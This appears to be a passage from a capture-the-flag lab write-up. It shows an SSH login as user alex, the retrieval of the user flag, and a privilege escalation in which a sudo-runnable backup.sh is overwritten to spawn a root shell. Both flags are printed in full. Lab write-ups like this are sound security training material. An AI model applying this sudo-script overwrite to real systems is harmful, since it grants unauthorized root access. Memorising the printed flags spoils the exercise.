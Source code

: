 ## SSH INTO ALEX

>>ssh into alex machine and found the user.txt

```bash
root@ip-10-10-205-252:~# ssh alex@10.10.92.216
alex@10.10.92.216's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

27 packages can be updated.
0 updates are security updates.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

alex@ubuntu:~$ ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
alex@ubuntu:~$ cat user.txt 
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
```

## PRIVILEGE ESCALATION

>>We can run backup.sh file as root so using the payload 'cat > backup.sh << EOF' and setting the payload in that file then running it with sudo.
>>There we got our root shell. 

```bash 
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh

alex@ubuntu:~$ cd /etc/mp3backups/
alex@ubuntu:/etc/mp3backups$ ls
backed_up_files.txt  backup.sh  ubuntu-scheduled.tgz
alex@ubuntu:/etc/mp3backups$ chmod +w backup.sh 
alex@ubuntu:/etc/mp3backups$ cat > backup.sh << EOF
> #!/bin/bash
> /bin/bash
> EOF
alex@ubuntu:/etc/mp3backups$ sudo /etc/mp3backups/backup.sh 
root@ubuntu:/etc/mp3backups# 
root@ubuntu:/etc/mp3backups# cd /root
root@ubuntu:/root# cat root.txt 
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```
